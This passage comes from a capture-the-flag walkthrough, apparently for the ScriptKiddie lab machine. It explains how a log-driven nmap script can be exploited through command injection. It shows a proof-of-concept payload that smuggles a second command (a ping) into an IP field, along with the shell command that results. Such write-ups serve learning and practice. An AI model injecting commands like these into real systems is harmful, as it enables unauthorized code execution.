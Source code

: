     12:41:37.943184 IP 10.10.14.15.http > 10.10.10.226.33020: Flags [R.], seq 0, ack 247415537, win 0, length 0



So it's clear that script is running.

### Command Injection

#### POC

The script is also injectable. Each line of the log is going to go into
`cut` to select the third and beyond objects (`-f3-`) when separated by
space (`-d' '`). Then it will `sort -u` to remove duplicates. This
isolates the IP:



    kid@scriptkiddie:~/logs$ echo "[2021-05-28 12:37:32.655374] 10.10.14.15" | cut -d' ' -f3-
    10.10.14.15



Then for each IP, it will run:



    sh -c "nmap --top-ports 10 -oN recon/${ip}.nmap ${ip} 2>&1 >/dev/null" &



So if I can put more than just an IP into the file where the IP should
be, I can inject commands. For example, I'll use a payload like



    kid@scriptkiddie:~/logs$ echo "x x x 127.0.0.1; ping -c 1 10.10.14.15 #" | cut -d' ' -f3- 
    x 127.0.0.1; ping -c 1 10.10.14.15 #



The first two `x` are just cut out, so that payload starts after that.
The next `x` is the name of the file in `/recon`. Then I put a 127.0.0.1
so it would have something to scan. Then there's a `;` to start a new
command, which I'll start with `ping`. Then a `#` to comment out the
rest of the line. That would make:



    sh -c "nmap --top-ports 10 -oN recon/x 127.0.0.1; ping -c 1 10.10.14.15 #.nmap x 127.0.0.1; ping -c 1 10.10.14.15 # 2>&1 >/dev/null" &



With syntax highlighting on the part inside `sh -c ""`:



    nmap --top-ports 10 -oN recon/x 127.0.0.1; ping -c 1 10.10.14.15 #.nmap x 127.0.0.1; ping -c 1 10.10.14.15 # 2>&1 >/dev/null



It's clearly going to `nmap` and then `ping`.

I'll start `tcpdump` and put that into the log:
